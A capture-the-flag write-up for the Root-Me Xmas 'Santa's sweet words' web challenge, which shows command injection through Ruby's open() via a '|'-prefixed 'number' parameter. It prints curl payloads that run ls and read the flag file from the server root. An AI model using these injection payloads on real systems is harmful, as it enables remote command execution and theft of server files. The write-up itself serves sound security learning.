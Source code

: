 ```yaml
---
layout: Post
format: chall
title: Day 18 - Santa's sweet words
date: 2024-12-23
ctf: Root-Xmas
tags: [RCE, Ruby]
category: [Web]
---
```

# Day 18 - Santa's sweet words

<a class="back-link" href="../../">< Go back</a>

## Description

Santa has left you a few kind words for the end of the year ... you wouldn't do her any harm, would you?

The flag is at the root / of the server.

Author: Elweth

<https://day18.challenges.xmas.root-me.org>

[resources/app.rb](./resources/app.rb) was provided.

## Challenge

### Recon

We are given the source code which is only `app.rb`, from there I re-created the remote server structure to stress test a bit more locally.

The interesting bit is this `GET /api/message` request that takes a `number` parameter, and it's almost a direct LFI:

```rb
get '/api/message' do
  number = params[:number]

  file_name = "#{number}.txt"

  content = open(file_name, "rb") { |f| f.read }
```

After the usual LFI/RFI brute force attempts using LFImap, I ended up looking more in details about ruby and how the `open()` funtions works.

I found this [article](https://bishopfox.com/blog/ruby-vulnerabilities-exploits) that explains a potential vulnerability. The idea is that `open()` is a mess in ruby, and using the `|` character we can make it run arbitrary shell code.

Let's try a small PoC locally:

```bash
curl http://localhost:4567/api/message?number=|date>>3 # URL encoded: |date%3E%3E3
curl http://localhost:4567/api/message?number=3
# Lun 23 déc 2024 09:11:07 CET
```

Great! Let's move to the remote server.

### Exploit

Attempting the same PoC gives me:

```bash
curl "https://day18.challenges.xmas.root-me.org/api/message?number=3"
# Happy Holidays! May the magic of this season bring you comfort and joy.
# Take a moment to appreciate the little things, share laughter with those you cherish, and embrace the spirit of giving.
# Remember, the best gift is the love we share!
```

Ok... So the `3.txt` already existed, that could be the reason why it didn't override the contents of it, though that still seems odd, but even after trying with something like `10.txt` it still doesn't work,

My theory is that because this challenge doesn't go trough a private deploy, but instead is hosted, I suspect that the whole remote machine is read-only, to prevent funny people doing funny things :)

So from this knowledge, we have to find a way to RCE without a temporary files. Let's try something simpler:

```bash
curl http://localhost:4567/api/message?number=|ls
# <h1>Internal Server Error</h1>
```

Mhhh... I'm not sure why this happens, but after some trial and error I found that going trough `echo` makes it work fine:

```bash
curl http://localhost:4567/api/message?number=|echo $(ls)
# 1.txt 2.txt 3.txt 4.txt 5.txt app.rb public.txt
```

Great! Now, let's look at the root directory, where the flag supposedly is:

```bash
curl http://localhost:4567/api/message?number=|echo $(ls /)
# bin boot dev etc flag-ruby-expert.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var .txt
```

And finally let's cat the flag:

```bash
curl https://day18.challenges.xmas.root-me.org/api/message?number=|echo $(cat /flag-ruby-expert.txt)
# RM{Why_d0esn't_Open_Ju5t_Op3n_in_rUbY??}.txt
```
